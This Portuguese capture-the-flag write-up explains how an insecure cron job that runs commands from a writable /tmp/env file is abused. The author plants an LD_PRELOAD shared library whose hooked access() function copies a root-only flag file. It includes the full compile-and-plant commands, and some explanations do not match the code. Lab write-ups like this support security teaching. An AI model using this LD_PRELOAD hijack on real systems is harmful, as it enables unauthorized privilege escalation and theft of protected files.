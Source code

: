 # CTF4

Seguindo a recomendação inicial do guião do CTF:



reparamos que quando o **crond** é executado, este executa `my_script.sh` e o output é guardado em `/tmp/last_log`.

Verifica-se que `/tmp` e `/run ` são os únicos diretórios onde nós temos permissões de escrita.
No diretório `/tmp` existe um ficheiro `env` que é atualizado todos os minutos, com permissões de flag_reader, através do **crond** (/etc/cron.d/mycrond) seguinte:

![CTF Opcional 1 b](c:\Users\danie\Desktop\imagens_FSI\cron.PNG)

 O conteúdo de `my_script.sh` é o seguinte:



Podemos observar que, se o ficheiro `/tmp/env` existir, vai ser executado o seu conteúdo como um comando shell usando **xargs**. A seguir, serão impressas as variáveis de ambiente através do **printenv**. Assim, podemos alterar a variável de ambiente PATH (para apontar para o diretório com um printenv controlado por nós):

```note
export LD_PRELOAD=./d.so
```

Criando o diretório `d.so`, podemos criar e compilar um ficheiro c com a função access (chamada em main.c) de forma a passar a flag para o ficheiro .txt criado por nós:

```c
echo '#include <stdio.h>' > d.c
echo '#include <stdlib.h>' >> d.c
echo '#include <unistd.h>' >> d.c
echo 'int access(const char *pathname, int mode){' >> d.c
echo '    system("/bin/cat /flags/flag.txt > /tmp/myflag.txt");' >> d.c
echo '    return 0;' >> d.c
echo '}' >> d.c

gcc -fPIC -g -c d.c
gcc -shared -o d.so d.o -lc

touch myflag.txt
chmod 777 myflag.txt
echo "LD_PRELOAD=/tmp/d.so" > env
```



Finalmente, esperamos uma nova execução de `my_script.sh` através do **crond** e verificou-se que o `last_log` continha a flag tal como previsto:

